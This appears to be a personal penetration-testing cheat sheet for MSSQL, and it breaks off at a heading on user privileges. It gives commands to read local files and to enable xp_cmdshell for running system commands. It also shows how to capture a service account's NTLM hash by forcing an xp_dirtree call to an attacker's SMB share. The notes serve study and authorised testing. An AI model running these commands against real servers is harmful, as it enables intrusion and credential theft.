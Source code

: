 MSSQL Syntax:
- Show databases: `SELECT name FROM master.dbo.sysdatabases` 
- `USE [database]`
- Show tables in a database: `SELECT * FROM [db].INFORMATION_SCHEMA.TABLES`
- Select all available entries from a table: `SELECT * FROM [table]`
- Read local files: `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`

Nmap Scripts
`sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p[port] [IP]`

xp_cmdshell
- `xp_cmdshell "command"` in an interactive sql session to execute commands. You may need to add `exec` at the beginning 
- TO ENABLE xp_cmdshell:
	- You must be system administrator or `sa` (I think) or have similar permissions
	- `EXEC sp_configure 'show advanced options', '1'`
	- `RECONFIGURE`
	- `EXEC sp_configure 'xp_cmdshell', '1'`
	- `RECONFIGURE`


metasploit `mssql_ping` scanner, `mssql_login`
- if you start a metasploit session using one of the modules, add the `mssql_enum` to see what commands work in the session
- go back to the session you opened, use `query_interactive` and then try some such as `xp_cmdshell "dir C:\"`


Other Clients
	- `locate mssqlclient` to find what you have
	- SQL Server Management Studio (SSMS)
	- `mssql-cli`
	- SQL Server Powershell
	- HeidiSQL
	- SQLPro
	- Impacket: `mssqlclient.py`
	- `sqsh`
	- `netexec mssql`


### Capture MSSQL Service Hash

Note: This is a windows authentication account, not necessarily an account set up with the MSSQL database

First, start `sudo responder -I tun0` or `sudo impacket-smbserver share./ -smb2support`

on MSSQL Session
- `EXEC master..xp_dirtree '\\[IP]\share\'`
- OR `EXEC master..xp_subdirs '\\[IP]\share\`
- responder should capture the hash

### Enumerate User Privs and Impersonations
